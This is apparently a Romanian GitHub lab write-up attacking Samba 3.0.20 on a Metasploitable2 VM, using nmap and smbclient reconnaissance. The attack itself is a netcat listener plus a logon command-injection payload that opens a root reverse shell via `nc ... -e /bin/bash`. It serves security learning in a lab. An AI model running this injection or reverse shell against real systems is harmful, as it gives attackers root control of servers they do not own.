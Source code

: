 ### Atac SMB:
  
  - [Despre SMB](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_smb.md)
  - versiune: *Samba 3.0.20*
  - Pasii atacului:
               
         nmap -sSV 192.168.56.102 -p139,445
         
    ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/nmap-scan-samba.png)

    Pentru a descoperi versiunea finala a serviciului, putem folosi tool-ul [smbclient](https://github.com/Dani780-C/Cyber-security/blob/main/tools/smbclient.md).
        
         smbclient -L 192.168.56.102 -p 445
         
    Dupa executarea comenzii, clientul este intrebat de o parola. Se apasa ENTER.
     
    ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/samba-version.png)

    Problema cu aceasta versiune samba 3.0.20 apare la etapa de login a clientului. Prin folosirea [metacaracterelor](https://github.com/Dani780-C/Cyber-security/blob/main/learn/metacaractere.md) putem sa scapam de partea de login a username-ului si sa executam comenzi (command injection).  
    
    Inainte de toate, trebuie sa avem un listener pe un anumit port pentru conexiuni exterioare. Intr-un terminal separat vom executa un netcat pentru a asculta pe portul 4444 orice conexiune: `nc -lvp 4444`.  
    In alt terminal, vom folosi smbclient pentru a ne conecta la serverul remote Metasploitable2: `smbclient //metasploitable/tmp`. Acum vine partea de autentificare in care vom apasa ENTER pentru a folosi command interface-ul smbclient.  
    Comanda `logon` din smbclient ne va ajuta sa omitem partea de autentificare injectand o comanda ce ne va efectua un reverse shell pe portul 4444 ascultat de `netcat`: ``logon "/=`nc 192.168.56.101 4444 -e /bin/bash`"``.  
    Se poate vedea ca atacul a reusit si folosim contul de root.
    
    ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/smbclient-logon-metacaractere.png)
    
  - Analiza trafic:
      - [Captura traficului pentru serviciul Samba in timpul atacului](https://github.com/Dani780-C/Cyber-security/blob/main/captures/samba-traffic-while-attack.pcapng)
